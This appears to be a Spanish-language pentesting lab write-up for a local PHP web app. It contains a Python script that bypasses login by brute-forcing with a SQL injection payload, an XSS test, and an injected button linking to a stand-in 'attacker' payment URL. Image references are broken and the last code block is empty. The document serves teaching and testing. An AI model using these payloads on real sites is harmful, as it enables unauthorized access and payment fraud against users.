

# Pentesting de la Web Web_Talent-ScoutTech

# SQLi

En la pagina de login `list_players.php` cuando ponemos `"` en el usuario, y en la contrasela ponemos cualquier cosa, nos salta un error:

.png)

Esta es la consulta que ejecuta:
`"SELECT userId, password FROM users WHERE username = """`


Usamos el diccionario personalizado que nos proporcionaron:
`["password", "123456", "12345678", "1234", "qwerty", "dragon"]`


Creamos un script en python que nos proporcione un poco de fuerza bruta ayudandonos de la sentencia `"OR password="contraseña"-- -` en el usuario y en contraseña la misma contraseña que probamos arriba en usuario.

Script:

```py
import requests

# URL del formulario de inicio de sesión
url = 'http://localhost:8080/list_players.php'

# Lista de contraseñas comunes para probar
passwords = ['password', '123456', '12345678', '1234', 'qwerty', 'dragon']

# Lista de usuarios (no se usa directamente en este script optimizado)
usernames = ["pepito", "luis", "marcos", "lucas", "eduardo", "carlos", "ana", "lorena", "ignacio", "maria"]

# Iteramos sobre cada contraseña
for password in passwords:
    # Creamos el payload con la inyección SQL
    payload = {
        'username': f'" OR password="{password}"-- -',  # Inyección SQL en el campo de usuario
        'password': password  # Contraseña actual en el ciclo
    }
    
    # Enviamos la solicitud POST al servidor
    response = requests.post(url, data=payload)
    
    # Verificamos si el inicio de sesión fue exitoso
    if 'Players list' in response.text:  # Ajustar según la respuesta real del servidor
        print(f'Login successful: Password: {password}')
        break  # Salimos del bucle si encontramos una contraseña válida
```


Ejecutamos el script:


De esta manera nos podemos loguear en la pagina web sin credenciales.

---
---
---

# XSS

Las pagina `show_comments.php` es vulnerable a XSS.

Se a inyectado un codigo de prueba: `<script>alert('XSS detectado');</script>`



Buscando mas paginas con XSS encontramos las siguientes:

- `insert_player.php`
- `buscador.php`

Lo unico que esta ultima tiene un limite de caracteres, pero se pueden modificar en el propio "Inspeccionar elementos" del navegador.
´


Añadimos codigo XSS en la pagina `insert_player.php` en el campo `Team` y añadimos un boton el cual llevaria a los usuarios a donarnos 100€.

Codigo:

```html
<a href="http://web.pagos/donate.php?amount=100&receiver=attacker" style="text-decoration: none;">
        <button>Profile</button>
</a>
```

.png)

Ahora para hacer que los usuarios que visiten la web nos agan un pago atravez de la web: `http://web.pagos/donate.php?amount=100&receiver=attacker`, podremos el enlace en un comentario con XSS dentro de uno de los perfiles.

XSS:
```html

```

.png)